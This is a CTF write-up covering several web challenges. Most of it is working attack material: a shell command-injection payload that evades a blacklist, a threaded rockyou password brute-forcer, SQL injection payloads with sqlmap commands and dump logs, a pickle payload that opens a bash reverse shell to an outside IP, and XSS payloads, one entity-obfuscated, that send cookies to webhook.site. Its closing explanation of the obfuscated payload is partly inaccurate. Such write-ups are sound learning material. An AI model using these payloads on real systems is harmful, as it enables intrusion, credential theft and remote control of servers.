



# Web CTF
We solved all problems.  
# gomai
base 64, cookie, console
<details>

  
flag has 5 parts:
1. At the bottom of the html
2. At the bottom of the style.css
3. Contained in the cookie. Cookie becomes visible upon refresh.
4. In the http response header
5. Printed in console once you scroll enough times. Can be triggered by setting m=0 in the console.
</details>

# Bocchi Search Tool
shell command  


<details>

  
A tool help you find bocchi in json !
http://ctf.adl.tw:12001/

You input a json like string, and the program finds the "bocchi" member and prints its value.
- foot note
anything on a shell command contained in pairs of`` gets executed as commands!!!
- solution
blacklist(php)
```php
$blacklist = ['|', '&', ';', '>', '<', "\n", '?', '*', '$', '\\', 'cat', 'flag'];
```

source code(php): 
```php
system("echo '" . $_POST['json'] . "'| jq .bocchi");
```

- attack string ver 1: '`tac  fl''ag` #
```php
system("echo '" . '`tac  fl''ag` # . "'| jq .bocchi");
```
which equals:
```bash
echo ''`tac  fl''ag` # . "'| jq .bocchi
```

- attack string ver 2: '`c''at  fl''ag` #
```php
system("echo '" .'`c''at  fl''ag` # . "'| jq .bocchi");
```
</details>

# monster
wordlist, custom http headers
<details>


## Change Your User Agent in Chrome
Open Chrome's Developer Tools by right-clicking anywhere and choosing Inspect, hitting Ctrl + Shift + I, or by pressing F12  
At the bottom of the resulting panel, you should see a section with the tabs Console, Network conditions, and What's New. Press Esc to show this if you don't see it.

On the Network conditions tab, uncheck Select automatically and you can then choose a new user agent from the list. Refresh to update the page with the new agent.

Note that this setting will revert back to normal when you close the developer panel, and only applies to your current tab.
## How to change your IP
https://chrome.google.com/webstore/detail/x-forwarded-for-header/hkghghbnihliadkabmlcmcgmffllglin/related

## Or just use this extension
https://chrome.google.com/webstore/detail/http-headers/fabjnpecogealbfoebkcjfbmdhnnfhbj?hl=en-GB

## Now, you must login
bocchi & 🤘rockyou!!!
- turns out rockyou is a passw list...
so we write a script to find the passw by brute force
```py
import requests
import numpy as np
import threading
from tqdm import tqdm
tn = 20
lines =[item.strip() for item in open(
    "./debug/rockyou.txt", "r", encoding="latin-1").readlines()]

print(len(lines))
splits = np.array_split(lines, tn)
pbar = tqdm(total=len(lines))


def request(i):
    lines = splits[i]
    for idx, pw in enumerate(lines):
        #print(pw)
        r = requests.get('http://ctf.adl.tw:12002/admin',
                         headers={"X-Forwarded-For": "127.0.0.1",
                                  "User-Agent": "STARRYBrowser",
                                  "Accept-Language": "ja-JP"}, auth=("bocchi", pw))
        if len(r.text) != 1370:
            print(pw)
            with open('./debug/pw.txt', 'w') as f:
                f.write(pw)
            #break
            exit()
        #if idx % 100 == (100 * i) / tn:
        if idx % 100 == 0:
            pbar.update(100)


for i in range(tn):
    t = threading.Thread(target=request, args=(i,))
    t.start()
```
- the password is located around 40% of rockyou
```powershell
PS D:\1111_work\1111attack_and_defense\security_2022> py .\web\monster\brute_force_multi_thread.py
14344391
 41%|███████████████████████████████████████████████████████▊                                                                                 | 5849900/14344391 [2:36:26<3:08:18, 751.83it/s]bocchio
```

- now that we have the password, we can use it to login~
</details>

# isostagram_1
sql injection
<details>


- php src
```php

$host = 'isostagram_db';
$dbuser = 'MYSQL_USER';
$dbpassword = 'MYSQL_PASSWORD';
$dbname = 'ctf_users';
$link = mysqli_connect($host, $dbuser, $dbpassword, $dbname);

$loginStatus = NULL;
$username = $_POST['username'];
$password = $_POST['password'];

if (isset($username) && isset($password)) {
    error_log('POST: [' . $username . '] [' . $password . ']');
    if ($link) {
        $blacklist = array("union", "select", "where", "and", "or");
        $replace = array("", "", "", "", "");
        $username = str_ireplace($blacklist, $replace, $username);
        $password = str_ireplace($blacklist, $replace, $password);
        $sql = "SELECT * FROM users WHERE `username` = '$username' AND `password` = '$password';";
        $query = mysqli_query($link, $sql);
        @$fetchs = mysqli_fetch_all($query, MYSQLI_ASSOC);
        if (@count($fetchs) > 0) {
            foreach ($fetchs as $fetch) {
                if ($fetch["username"] === 'kita0421' && $fetch["password"] === $password) {
                    $loginStatus = True;
                    break;
                }
                $loginStatus = False;
            }
        } else {
            $loginStatus = False;
        }
    } else {
        $loginStatus = NULL;
    }
} else {
    $loginStatus = NULL;
}
```

- ref 
[link](https://blog.csdn.net/qq_23667585/article/details/127213099?spm=1001.2101.3001.6650.3&utm_medium=distribute.pc_relevant.none-task-blog-2~default~YuanLiJiHua~Position-3-127213099-blog-88721329.pc_relevant_recovery_v2&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2~default~YuanLiJiHua~Position-3-127213099-blog-88721329.pc_relevant_recovery_v2&utm_relevant_index=4)
- payload
1. didn't work
```SQL
' O/**/R '1' = '1; UPDATE users SET `password`= '123' WH/**/ERE `username` = 'kita0421';--

```
2. didn't work
```SQL
1' OORR '1' = '1' limit 1; --
```
3. didn't work
```SQL
' UORNION select '0','kita0421','1';--
' UORNION select 'kita0421','1','0';--
' UORNION select 'kita0421','1';--
```
4. worked!!!!!!
```sql
--                     id account   pw
-1' UORNION SORELECT 0,'kita0421','pass';#
```
</details>

# isostagram_2
sqlmap
<details>

## sql injection - database
The idea is to use sqlmap to start a time based attack.
- payload must be within 50 characters.
- ref 1: How to use a custom tamper.py
https://www.cnblogs.com/hetianlab/p/16012663.html
- ref 2: How to use sqlmap.
https://hackertarget.com/sqlmap-post-request-injection/
- 題目:
http://ctf.adl.tw:12003/
- First use burp to obtain a sample of the post request
    - download [Burp(community suite)](https://portswigger.net/burp)
    - open browser
    - configure burp to intercept http requests
    - copy the content of the post request to search-test.txt
    - sqlmap
1. Didn't work
```powershell
PS D:\1111_work\1111attack_and_defense\sqlmap> py sqlmap.py -u 'http://ctf.adl.tw:12003/' --data "username=123&password=123" --level=5 --risk=3 --tamper=my_tamper/my_tamper.py
```
2. Didn't work
```powershell
PS D:\1111_work\1111attack_and_defense\sqlmap> py sqlmap.py -r './my_tamper/search-test.txt'-p username password --tamper=my_tamper/my_tamper.py
```

3. Worked
```powershell
PS D:\1111_work\1111attack_and_defense\sqlmap> py sqlmap.py -r './my_tamper/search-test.txt'-p username password -D ctf_users -T users -C password username --tamper=my_tamper/my_tamper.py --dump
```

- Sqlmap logs
```powershell
PS D:\1111_work\1111attack_and_defense\sqlmap> py .\sqlmap.py -h
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.12.7#dev}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

Usage: sqlmap.py [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -g GOOGLEDORK       Process Google dork results as target URLs

  Request:
    These options can be used to specify how to connect to the target URL

    --data=DATA         Data string to be sent through POST (e.g. "id=1")
    --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
    --random-agent      Use randomly selected HTTP User-Agent header value
    --proxy=PROXY       Use a proxy to connect to the target URL
    --tor               Use Tor anonymity network
    --check-tor         Check to see if Tor is used properly

  Injection:
    These options can be used to specify which parameters to test for,
    provide custom injection payloads and optional tampering scripts

    -p TESTPARAMETER    Testable parameter(s)
    --dbms=DBMS         Force back-end DBMS to provided value

  Detection:
    These options can be used to customize the detection phase

    --level=LEVEL       Level of tests to perform (1-5, default 1)
    --risk=RISK         Risk of tests to perform (1-3, default 1)

  Techniques:
    These options can be used to tweak testing of specific SQL injection
    techniques

    --technique=TECH..  SQL injection techniques to use (default "BEUSTQ")

  Enumeration:
    These options can be used to enumerate the back-end database
    management system information, structure and data contained in the
    tables

    -a, --all           Retrieve everything
    -b, --banner        Retrieve DBMS banner
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --passwords         Enumerate DBMS users password hashes
    --dbs               Enumerate DBMS databases
    --tables            Enumerate DBMS database tables
    --schema            Enumerate DBMS schema
    --dump              Dump DBMS database table entries
    --dump-all          Dump all DBMS databases tables entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate

  Operating system access:
    These options can be used to access the back-end database management
    system underlying operating system

    --os-shell          Prompt for an interactive operating system shell
    --os-pwn            Prompt for an OOB shell, Meterpreter or VNC

  General:
    These options can be used to set some general working parameters

    --batch             Never ask for user input, use the default behavior
    --flush-session     Flush session files for current target

  Miscellaneous:
    These options do not fit into any other category

    --wizard            Simple wizard interface for beginner users

[!] to see full list of options run with '-hh'

Press Enter to continue...
PS D:\1111_work\1111attack_and_defense\sqlmap> py sqlmap.py -r './my_tamper/search-test.txt'-p username --tamper=my_tamper/my_tamper.py --dump-all
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6.12.7#dev}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. 
Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:17:53 /2022-12-22/

[10:17:53] [INFO] parsing HTTP request from './my_tamper/search-test.txt'
[10:17:53] [INFO] loading tamper module 'my_tamper'
[10:17:54] [INFO] resuming back-end DBMS 'mysql'
[10:17:54] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: username=eBpr' RLIKE SLEEP(5)-- itvC&password=&submit=OPis
---
[10:17:54] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[10:17:54] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12
[10:17:54] [INFO] sqlmap will dump entries of all tables from all databases now
[10:17:54] [WARNING] cannot properly display (some) Unicode characters inside your terminal ('cp950') environment. All unhandled occurrences will result in replacement with '?' character. Please, find proper character representation inside corresponding output files

[10:17:54] [WARNING] ?前??字列表如下，?注意修改:
['UNION', 'SELECT', 'WHERE', 'AND', 'OR']
[10:17:54] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[10:17:55] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[10:19:31] [INFO] adjusting time delay to 1 second due to good response times
3
[10:19:31] [INFO] retrieved: information_schema
[10:26:12] [INFO] retrieved: performance_schema
[10:32:38] [INFO] retrieved: ctf_users
[10:36:16] [INFO] fetching tables for databases: 'ctf_users, information_schema, performance_schema'
[10:36:16] [INFO] fetching number of tables for database 'ctf_users'
[10:36:16] [INFO] retrieved: 1
[10:36:23] [INFO] retrieved: users
[10:38:09] [INFO] fetching number of tables for database 'performance_schema'
[10:38:09] [INFO] retrieved: 8
[10:38:30] [INFO] retrieved: gl
[10:40:02] [ERROR] invalid character detected. retrying..
[10:40:02] [WARNING] increasing time delay to 2 seconds
obal_statu


[*] ending @ 10:48:13 /2022-12-22/

PS D:\1111_work\1111attack_and_defense\sqlmap> py sqlmap.py -r './my_tamper/search-test.txt'-p username password -D ctf_users -T users -C password username --tamper=my_tamper/my_tamper.py --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.12.7#dev}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. 
Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:48:28 /2022-12-22/

[10:48:28] [INFO] parsing HTTP request from './my_tamper/search-test.txt'
[10:48:28] [INFO] loading tamper module 'my_tamper'
[10:48:28] [INFO] resuming back-end DBMS 'mysql'
[10:48:28] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: username=eBpr' RLIKE SLEEP(5)-- itvC&password=&submit=OPis
---
[10:48:29] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[10:48:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 7.4.33, Apache 2.4.54
back-end DBMS: MySQL >= 5.0.12
[10:48:29] [INFO] fetching entries of column(s) 'password' for table 'users' in database 'ctf_users'
[10:48:29] [INFO] fetching number of column(s) 'password' entries for table 'users' in database 'ctf_users'
[10:48:29] [WARNING] cannot properly display (some) Unicode characters inside your terminal ('cp950') environment. All unhandled occurrences will result in replacement with '?' character. Please, find proper character representation inside corresponding output files

[10:48:29] [WARNING] ?前??字列表如下，?注意修改:
['UNION', 'SELECT', 'WHERE', 'AND', 'OR']
[10:48:29] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[10:49:10] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
7
[10:49:40] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
[10:50:10] [INFO] adjusting time delay to 1 second due to good response times
ADL{w474sh1n0furun3muh4k174k174d3su...https://youtu.be/MSnLgdQFk1c}
[11:19:11] [INFO] retrieved: alg
[11:20:29] [WARNING] Ctrl+C detected in dumping phase
Database: ctf_users
Table: users
[1 entry]
+---------------------------------------------------------------------+
| password                                                            |
+---------------------------------------------------------------------+
| ADL{w474sh1n0furun3muh4k174k174d3su...https://youtu.be/MSnLgdQFk1c} |
+---------------------------------------------------------------------+

[11:20:29] [INFO] table 'ctf_users.users' dumped to CSV file 'C:\Users\Perry\AppData\Local\sqlmap\output\ctf.adl.tw\dump\ctf_users\users.csv'
[11:20:29] [INFO] fetched data logged to text files under 'C:\Users\Perry\AppData\Local\sqlmap\output\ctf.adl.tw'

[*] ending @ 11:20:29 /2022-12-22/

PS D:\1111_work\1111attack_and_defense\sqlmap> 
```

</details>

# fukuwarai
deserialization
<details>


1. vuln
```py
@api.post('/import')
def import_layout():
    layout = request.json.get('layout')
    layout = pickle.loads(base64.b64decode(layout))
    if dataGuard(layout):
        session['layout'] = layout
        return '1'
    return '0'
```
2. payload
```py
import pickle
import base64
import os

class RCE_revers_shell:
    def __reduce__(self):
        cmd = "bash -c \"bash &>/dev/tcp/87.87.87.87/4444<&1\""
        return os.system, (cmd,)
class RCE_get_env:
    def __reduce__(self):
        cmd="FLAG"
        return os.getenv, (cmd,)


payload = [{'id': 'hako01', 'left': 1131, 'top': RCE_get_env()}]
my_layout = base64.b64encode(pickle.dumps(payload)).decode()
print(my_layout)

```
### Pickle does not cross OS!!!!
- encoded payload looks different across linux and windows.


 
</details>

# message_board

xss
<details>


1. pressing the send button sends a post request to api.php
```html
http://ctf.adl.tw:12005/api.php?method=send
```
2. objective is to get the cookie on the server
3. iframe causes admin to send a http request to a remote link.
4. We set up a remote listener to handle http requests. We can use this [site](https://webhook.site/?fbclid=IwAR0PzMsA8CMTLpCQfhtUV38Qbh5oS-bPvotRPBz9tJCoEjsDi5j-_qM2lok#!/15777b00-a93c-4ce3-a75e-5f8afc14e2a9/26af9310-e1a9-476a-9f80-ae7d80c3823f/1).

(We may also use csp bypass.)
## payloads tried
- v1 didn't work
```html
<b onMouseOver="self.location.href='https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44'+escape(document.cookie)">test</b>
```
- v2 (can't use onload)
```html
<iframe onload="self.location.href='https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44'+escape(document.cookie)">test</iframe>
```
- v3 (can't use +)
```html
<iframe onMouseOver="self.location.href='https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44'+escape(document.cookie)">test</iframe>
```
Turns out we cannot use + in the payload.
- test
```html
"/> <script>alert(0)</script> <!--
```
- v5 worked
```html
<iframe src=javascript:document.location='https://webhook.site/5b057c82-404d-4e23-a94a-c0f5d17d9259/?flag='.concat(document.cookie)>
```
- v6 also worked, generated by ./generate_payload.py
```html
<iframe src=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#102;&#101;&#116;&#99;&#104;&#40;&#39;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#119;&#101;&#98;&#104;&#111;&#111;&#107;&#46;&#115;&#105;&#116;&#101;&#47;&#50;&#49;&#55;&#48;&#99;&#55;&#99;&#56;&#45;&#57;&#52;&#57;&#99;&#45;&#52;&#49;&#100;&#49;&#45;&#56;&#52;&#55;&#57;&#45;&#53;&#100;&#49;&#48;&#97;&#57;&#55;&#54;&#48;&#56;&#52;&#101;&#63;&#102;&#108;&#97;&#103;&#61;&#39;&#43;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41;&#46;&#116;&#104;&#101;&#110;&#40;&#40;&#114;&#101;&#115;&#112;&#111;&#110;&#115;&#101;&#41;&#32;&#61;&#62;&#32;&#123;&#114;&#101;&#116;&#117;&#114;&#110;&#32;&#114;&#101;&#115;&#112;&#111;&#110;&#115;&#101;&#46;&#106;&#115;&#111;&#110;&#40;&#41;&#59;&#125;&#41;&#46;&#99;&#97;&#116;&#99;&#104;&#40;&#40;&#101;&#114;&#114;&#111;&#114;&#41;&#32;&#61;&#62;&#32;&#123;&#99;&#111;&#110;&#115;&#111;&#108;&#101;&#46;&#108;&#111;&#103;&#40;&#39;&#110;&#111;&#39;&#41;&#59;&#125;&#41><iframe>
```
    The iframe element in this code is being used to load a script from a remote URL using the src attribute.  

    The URL is encoded using HTML character references, which are used to represent characters that are not part of the standard ASCII character set. For example, &#106; represents the letter "j", &#97; represents the letter "a", and so on.   

    When the HTML code is parsed by a web browser, these character references are converted back into their corresponding characters, so the src attribute in this iframe element would be interpreted as a URL that begins with "javascript:fetch(...".  

    The iframe element also contains a script that uses the fetch() function to retrieve data from the specified URL and then execute it as a JavaScript script. This can be a security risk, as it allows the script to potentially access and manipulate the current document and any data it contains. It's generally a good idea to avoid executing arbitrary scripts from untrusted sources in this way.


</details>